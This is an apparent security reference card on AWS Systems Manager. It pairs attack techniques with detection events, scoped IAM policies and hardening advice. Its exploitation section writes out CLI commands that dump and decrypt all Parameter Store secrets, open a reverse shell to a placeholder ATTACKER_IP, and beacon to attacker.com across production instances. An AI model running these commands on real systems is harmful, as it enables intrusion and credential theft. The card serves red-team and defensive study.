

#  AWS Systems Manager Security



> **Category**: MANAGEMENT

Systems Manager (SSM) provides operational management for EC2 and on-premises servers. Parameter Store holds secrets, Run Command enables remote execution, Session Manager provides shell access.

## Quick Stats

| Risk Level | Run Command | Parameter Store | Session Manager |
| --- | --- | --- | --- |
| **HIGH** | **RCE** | **Secrets** | **Shell** |

## Service Overview

### Parameter Store

Hierarchical storage for configuration and secrets. Supports SecureString (KMS encrypted), String, and StringList types. Often contains database passwords, API keys, certificates.

### Run Command

Execute commands on managed instances without SSH. Uses SSM Agent. Can run shell scripts, PowerShell, Python. Perfect for lateral movement and remote code execution.

### Session Manager

Interactive shell access to instances without SSH keys or bastion hosts. Sessions logged to S3/CloudWatch. No inbound ports required - uses HTTPS.

## Security Risk Assessment

`█████████░` **8.5/10** (CRITICAL)

SSM provides remote code execution, secret storage, and shell access. Compromising SSM permissions often leads to full instance compromise and lateral movement across the fleet.

## ⚔️ Attack Vectors

### Parameter Store

- Enumerate all parameters for secrets
- Decrypt SecureString parameters
- Modify parameters to inject backdoors
- Access parameters via EC2 instance role
- History reveals old secret values

### Run Command & Session Manager

- Execute arbitrary commands on instances
- Reverse shell via Run Command
- Session Manager for interactive access
- Pivot through managed instances
- Execute across all tagged instances

## ⚠️ Misconfigurations

### Parameter Store Issues

- Secrets stored as String (not SecureString)
- Overly permissive parameter policies
- Missing KMS encryption
- Wildcard parameter paths in IAM
- No parameter versioning/history cleanup

### Run Command Issues

- ssm:SendCommand with Resource: *
- No instance tag restrictions
- Session Manager without logging
- Missing session encryption
- No approval workflow for commands

## 🔍 Enumeration

**List All Parameters**
```bash
aws ssm describe-parameters
```

**Get Parameter Value**
```bash
aws ssm get-parameter --name /app/db/password --with-decryption
```

**Get Parameters by Path**
```bash
aws ssm get-parameters-by-path --path /app/ --recursive --with-decryption
```

**List Managed Instances**
```bash
aws ssm describe-instance-information
```

**List Documents**
```bash
aws ssm list-documents --document-filter-list key=Owner,value=Self
```

## 💻 Remote Code Execution

### Run Command

- AWS-RunShellScript for Linux
- AWS-RunPowerShellScript for Windows
- Target by instance ID, tag, or resource group
- Output stored in S3 or CloudWatch
- Async execution with status tracking

### Session Manager

- Interactive shell without SSH
- Port forwarding through SSM
- Start session from console or CLI
- Session recorded to S3/CloudWatch
- Works through NAT, no inbound rules

> **Red Team:** Run Command is often the fastest path to RCE once you have ssm:SendCommand permission.

## 🔄 Lateral Movement

### Via SSM

- Execute on all instances with matching tags
- Steal credentials from instance metadata
- Read application configs with secrets
- Pivot to on-premises hybrid instances
- Access instances in private subnets

### Credential Harvesting

- Dump Parameter Store secrets
- Extract .env files from instances
- Read AWS credentials from disk
- Access application database configs
- Steal SSH keys from instances

## 🛡️ Detection

### CloudTrail Events

- GetParameter/GetParameters - secret access
- SendCommand - remote execution
- StartSession - interactive session
- PutParameter - parameter modification
- CreateDocument - custom document

### Indicators of Compromise

- Bulk parameter enumeration
- Commands to multiple instances
- Unusual Session Manager usage
- Parameter access from new principals
- Reverse shell patterns in commands

## Exploitation Commands

**Dump All Parameters**
```bash
aws ssm get-parameters-by-path \\
  --path "/" \\
  --recursive \\
  --with-decryption \\
  --query 'Parameters[*].[Name,Value]' \\
  --output table
```

**Execute Command on Instance**
```bash
aws ssm send-command \\
  --instance-ids i-1234567890abcdef0 \\
  --document-name "AWS-RunShellScript" \\
  --parameters 'commands=["whoami","id","cat /etc/passwd"]'
```

**Reverse Shell via Run Command**
```bash
aws ssm send-command \\
  --instance-ids i-1234567890abcdef0 \\
  --document-name "AWS-RunShellScript" \\
  --parameters 'commands=["bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"]'
```

**Start Session Manager**
```bash
aws ssm start-session --target i-1234567890abcdef0
```

**Execute on Tagged Instances**
```bash
aws ssm send-command \\
  --targets "Key=tag:Environment,Values=Production" \\
  --document-name "AWS-RunShellScript" \\
  --parameters 'commands=["curl http://attacker.com/beacon"]'
```

**Port Forward via Session Manager**
```bash
aws ssm start-session \\
  --target i-1234567890abcdef0 \\
  --document-name AWS-StartPortForwardingSession \\
  --parameters '{"portNumber":["3389"],"localPortNumber":["13389"]}'
```

## Policy Examples

### ❌ Overly Permissive - Full SSM Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "ssm:*",
    "Resource": "*"
  }]
}
```

*Allows reading all secrets, executing commands on any instance, and full management*

### ✅ Scoped Parameter Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["ssm:GetParameter", "ssm:GetParameters"],
    "Resource": "arn:aws:ssm:*:*:parameter/app/myapp/*",
    "Condition": {
      "StringEquals": {
        "aws:ResourceTag/team": "myteam"
      }
    }
  }]
}
```

*Only allows access to parameters under specific path with tag restriction*

### ❌ Dangerous - Wildcard SendCommand

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "ssm:SendCommand",
    "Resource": "*"
  }]
}
```

*Can execute commands on ANY managed instance - critical RCE risk*

### ✅ Restricted Run Command

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "ssm:SendCommand",
    "Resource": [
      "arn:aws:ec2:*:*:instance/*",
      "arn:aws:ssm:*::document/AWS-RunShellScript"
    ],
    "Condition": {
      "StringEquals": {
        "ssm:resourceTag/Environment": "Development"
      }
    }
  }]
}
```

*Restricts command execution to Dev instances only*

## Defense Recommendations

### 🔐 Use SecureString for Secrets

Always encrypt sensitive parameters with KMS SecureString type.

```bash
aws ssm put-parameter \\
  --name "/app/db/password" \\
  --value "secret123" \\
  --type SecureString \\
  --key-id alias/my-key
```

### 📝 Enable Session Manager Logging

Log all sessions to S3 and CloudWatch for audit trail.

```bash
# In Session Manager preferences
{
  "s3BucketName": "session-logs",
  "cloudWatchLogGroupName": "/aws/ssm/sessions"
}
```

### 🏷️ Use Tag-Based Access Control

Restrict SendCommand and StartSession to specific instance tags.

### 🔒 Restrict Parameter Paths

Use hierarchical parameter paths and grant access to specific paths only.

### 🚫 Limit Document Usage

Restrict which SSM documents can be used for commands.

```bash
"Condition": {
  "StringEquals": {
    "ssm:DocumentName": [
      "AWS-RunPatchBaseline",
      "Custom-ApprovedScript"
    ]
  }
}
```

### ⏰ Use Run Command Approvals

Require manual approval for sensitive command execution via Automation.

---

*AWS Systems Manager Security Card*

*Always obtain proper authorization before testing*
